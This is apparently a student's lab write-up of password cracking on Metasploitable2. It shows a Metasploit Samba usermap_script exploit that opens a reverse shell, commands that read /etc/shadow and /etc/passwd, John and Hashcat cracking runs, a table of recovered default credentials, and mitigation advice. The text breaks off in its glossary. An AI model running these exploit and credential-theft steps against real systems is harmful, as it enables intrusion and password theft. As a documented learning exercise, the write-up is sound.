# Password Cracking on an Open-Source System (Metasploitable2)


## Project Overview

In this project, I demonstrate how to recover passwords from an open-source vulnerable system (Metasploitable 2) using various password cracking techniques and tools. The objective was to simulate a real-world post-exploitation scenario where an attacker extracts hashed passwords from a compromised system and attempts to recover the original plaintext passwords using dictionary and brute-force attacks.


> **Note**: This project is for educational purposes only. All tests were conducted in a controlled lab environment using vulnerable machines designed for ethical hacking practice.


---

## Table of Contents

- [Environment Setup](#environment-setup)
- [Tools Used](#tools-used)
- [Getting Access and Extracting Hashes](#getting-access-and-extracting-hashes)
- [Password Cracking Process](#password-cracking-process)
- [Screenshots](#screenshots)
- [Challenges and Resolutions](#challenges-and-resolutions)
- [Mitigation Recommendations](#mitigation-recommendations)
- [Final Results](#final-results)
- [Conclusion](#conclusion)
- [Glossary](#glossary-of-key-terms)
- [My Take](#my-take)
  
---

## Environment Setup

| Component        | Description                             |
|------------------|-----------------------------------------|
| **Attacker Machine**  | Kali Linux |
| Attacker IP | `192.168.56.102`       |
| **Target Machine**    | Metasploitable 2 
| Target IP| `192.168.56.104` |
| **Network Type** | Host-Only Adapter                       |

### Confirming connectivity
```
ifconfig    # To check the IP addresses of both machines
```
```
ping 192.168.56.104  # From Kali to Metasploitable
```
```
ping 192.168.56.102  # From Metasploitable to Kali
```
Both virtual machines were set up using VirtualBox to ensure seamless internal communication. VMware was initially used, but later replaced due to network configuration challenges.



*Attacker machine on the left, target machine on the right*

---

## Tools Used

| Tool            | Purpose                              |
|------------------|--------------------------------------|
| **nmap**         | Used it for service enumeration      |
| **Metasploit**   | Used it for Exploitation and shell access |
| **John the Ripper** | Used it for password cracking with dictionary |
| **Hashcat**      | Advanced hash cracking I used for further cracking  |
| **hashes.com**   | For online hash cracking                 |
| rockyou.txt	| A popular password wordlist I used for dictionary attacks |
| xato-net-10-million-passwords.txt | I used "10 million Password" wordlist from Seclists for cracking|
| Dirb (common.txt) |	Alternative wordlist I used to expand cracking possibilities |


---

## Getting Access and Extracting Hashes

Although exploitation wasn't the core of the assignment, initial access to the Metasploitable 2 system was needed.

Once enumeration revealed the SMB service on Metasploitable 2, I used Metasploit to exploit it:

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.104
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.56.102
exploit
```
Once shell access was gained:
```
cat /etc/passwd
cat /etc/shadow
```
Due to issues with scp in copying the content to my machine ("host key verification failed"), I copied the contents manually from the shell into my local files:
```
nano shadow.txt      # Pasted contents from /etc/shadow
nano passwd.txt      # Pasted contents from /etc/passwd
```
Then I combined the hash files...waiting to be cracked with John The Ripper:
```
unshadow passwd.txt shadow.txt > hashes.txt
```

---

## Password Cracking Process

### Using John The Ripper with `rockyou` wordlist:
```
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
Successfully cracked 3/7 hashes:

- `sys:batman`

- `klog:123456789`

- `service:service`

John The Ripper returned the hash format to be `md5crypt`

### Preparing for Hashcat Cracking
```bash
cut -d: -f2 shadow.txt > md5.hash
```
This command extracts only the hashed password portion from the `shadow.txt` file.

### Using Hashcat with wordlist from Seclists
```
hashcat -m 500 md5.hash /usr/share/wordlists/xato-net-10-million-passwords.txt --force
```
Successfully cracked 4/7 passwords, including `user:user`.

- SecLists Download: `git clone https://github.com/danielmiessler/SecLists.git`

```
hashcat -m 500 md5.hash --show
```
The line above displays the crack result.

To associate the cracked hash with usernames, I matched the row numbers from `md5.hash` to `hashes.txt`.

```
# Line 4 in md5.hash corresponds to line 4 in hashes.txt
# Thus matched cracked password to user
```

### Using the Dirb's `common.txt` for cracking again
```
hashcat -m 500 md5.hash /usr/share/wordlists/dirb/common.txt --force
```
Successfully cracked 5/7 passwords, including `postgres:postgres`.

### Online Cracking via hashes.com
Pasted the remaining hashes, and the site returned:

`msfadmin:msfadmin`

`postgres:postgres`

Successfully cracked 6/7 passwords, including `msfadmin:msfadmin`

### Remaining: Password for the "Root"  username
Despite multiple dictionary attempts, the root password remained uncracked. It would require brute-force techniques:

```bash
hashcat -m 500 -a 3 root.hash ?a?a?a?a?a?a?a --force
```
This was a brute-force attempt that would take a lot of time and processing power.
Warning: Brute force is extremely resource-intensive and may take a long time so I stopped the bruteforce attack midway `ctrl + c`
It won't take as much time with very short passwords.

---

## Screenshots

Below are selected screenshots from the password cracking project showing key stages of the process.

### Successful Network Configuration



*This shows a successful ping test between the Kali Linux attacker machine and the Metasploitable 2 target machine after configuring both on a Host-Only network.*


### Port Scanning with Nmap



*Here, I used `nmap` to enumerate open ports and identify exposed services on Metasploitable 2.*


### Gaining Shell Access via Samba Exploit



*This screenshot captures shell access gained through the `usermap_script` Samba exploit using Metasploit.*


### Viewing Shadow and Passwd Files




*After gaining shell access, I used `cat` to view `/etc/shadow` and `/etc/passwd`, containing hashed user passwords and usernames respectively.*


### Manual Copy of Shadow and Passwd Files



*Because `scp` returned a host key verification error, I manually copied the content of both files into new text files on my attacker machine.*


### Cracking Hashes with John the Ripper




*Using `john` and the RockYou wordlist, I successfully cracked 3 out of 7 hashes from the unshadowed file.*


### Using Hashcat with a Different Wordlist






*Here, I used `hashcat` with the Xato 10 million password list. Hashcat successfully cracked an additional password (`user:user`).*

### Mapping out the hashes to the usernames 



*Since hashcat cracked just the password hashes, I opened up the `hashes.txt`, `md5.hash` and the `cracked results from the terminal` side by side for easy mapping of username to password/hash with the row numbers.*

### Online Cracking with Hashes.com



*This shows the cracked hashes for `msfadmin` and `postgres` using hashes.com.*

---

## Challenges and Resolutions

| Challenge           | Resolution                        |
|---------------------|-----------------------------------|
| Ping issues with VMWare since both Vms were on different virtual networks | 	Switched to VirtualBox and used host-only mode  |
| scp host key verification failed   | 	Manually copied from shell       |
| Some hashes were not cracked with John/Hashcat | 	Changed wordlists and Used online cracking for remaining hash |
| Root hash was uncrackable with dictionaries I used     | 	Planned brute-force as alternative               |

---

## Mitigation Recommendations

After successfully recovering several hashed passwords from an open-source system as demostrated, it's important to reflect on how such attacks can be prevented in real-world environments. Below are key mitigation strategies that organizations and system administrators should implement to defend against password cracking attacks.

### 1. Use Strong Password Policies
Weak or predictable passwords make brute-force and dictionary attacks highly effective. Enforce strong password policies such as:
- Passphrases
- Minimum of 12 characters
- Mix of uppercase, lowercase, numbers, and symbols
- No dictionary words or common patterns
- Regular password updates

Example (Strong Passphrase):Irep@iredMyGhostF!leYe@r$Back
*It simply says....*
*"I repaired my ghost file years back*
*I hope you realise how simple it'll be to memorise but hard for bruteforce attacks*

### 2. Enforce Account Lockout Policies
Account lockouts after a defined number of failed login attempts help prevent automated brute-force attacks.
- Lock account after 5 incorrect attempts
- Enable automatic unlocking after a cooldown period
- Alert administrators upon repeated failures

### 3. Salt Passwords Before Hashing
Salting adds a unique random string to each password before hashing, which makes precomputed hash attacks (like rainbow tables) ineffective.
- Store a unique salt with each user’s record
- Combine salt + password before hashing

### 4. Use Strong Hashing Algorithms
Outdated hash functions like **MD5**, **SHA1**, or even **MD5crypt** are vulnerable to fast cracking.
- Use modern hashing algorithms like:
  - `bcrypt`
  - `scrypt`
  - `Argon2`
- These are designed to be **slow and resource-intensive**, making them impractical to brute-force.

### 5. Implement Multi-Factor Authentication (MFA)
Even if an attacker cracks a user’s password, MFA provides an additional layer of defense.
- Use email-based codes, authenticator apps, or biometric verification.
- Enforce MFA for all admin and remote login users.

### 6. Restrict Remote Access Services
Limit or disable services like:
- Telnet
- FTP
- SMB
Unless very necessary, but always protect them with proper authentication.

### 7. Monitor and Audit System Logs
Detect brute-force attempts early by:
- Logging failed login attempts
- Monitoring unusual patterns such as login attempts from unknown IPs
- Using intrusion detection systems (IDS) like **Snort**

### 8. Educate Users
Most users are unaware of password security best practices. Conduct regular cybersecurity awareness training covering:
- Creating strong passwords
- Recognizing phishing attempts
- Reporting suspicious activity
 
---

## Final Results

|Username	|Password 	|
|---------|------------|
|sys	    |batman     |
|klog   	|123456789	|
|service  |service  	|
|user   	| user      |
|postgres	|postgres   |
|msfadmin |msfadmin   |	
|root	    | `(Not cracked)`|

---

## Conclusion

Through this project, I successfully demonstrated post-exploitation password recovery on an open-source vulnerable system using ethical hacking techniques. Out of 7 user accounts, 6 passwords were cracked using John the Ripper, Hashcat, and online tools. The root user remained uncracked and was left as a candidate for brute-force cracking. This showcases the real-world importance of strong passwords and security policies on Unix-based systems.

## Glossary of Key Terms

This section explains important cybersecurity and Linux-related terms used in this project in simple language for beginners.

### Password Hash
- A **hash** is a scrambled version of a password created using a mathematical function. Hashes are stored instead of plain-text passwords to enhance security.

### `/etc/passwd` and `/etc/shadow`
- `/etc/passwd`: A file on Linux systems that stores basic user account information.
- `/etc/shadow`: Stores the hashed passwords of users. Only root or privileged users can access it.

### John the Ripper
- A popular **password cracking tool** that guesses passwords by comparing password hashes with a list of possible passwords called a "dictionary" or "wordlist".

### Hashcat
- An advanced **GPU-powered password cracker**. It's faster and more flexible than John the Ripper and supports many hash formats.

### Dictionary Attack
- A type of attack where the cracker tries passwords from a pre-built list (wordlist) just like trying all words in a dictionary to find the correct one.

### Brute-Force Attack
- An attack where the cracker tries **every possible combination** of characters until the correct password is found. It’s powerful but time-consuming.

### SMB (Server Message Block)
- A protocol that allows **file sharing over a network**. Often used in Windows environments, but also supported on Linux using Samba.

### Samba
- A **Linux implementation of SMB**. It allows Linux and Windows systems to share files and printers. Can be vulnerable if outdated or misconfigured. (This is what I exploited to gain access to the target machine)

### Exploit
- Simply means taking advantage of a vulnerability in a system or service. In this project, I used an exploit to get shell access just as I said above.

### Shell Access
- Direct access to the command-line interface of a system. Gaining shell access means the attacker can run commands on the target machine.

### Metasploit
- A powerful penetration testing framework used to find and exploit vulnerabilities in systems.

### `unshadow`
- A Linux tool that combines `/etc/passwd` and `/etc/shadow` into a single file that password crackers can use to try cracking passwords.

### `scp` (Secure Copy)
- A command used to securely transfer files between computers over SSH. Used to download sensitive files from the target.

### `md5crypt`
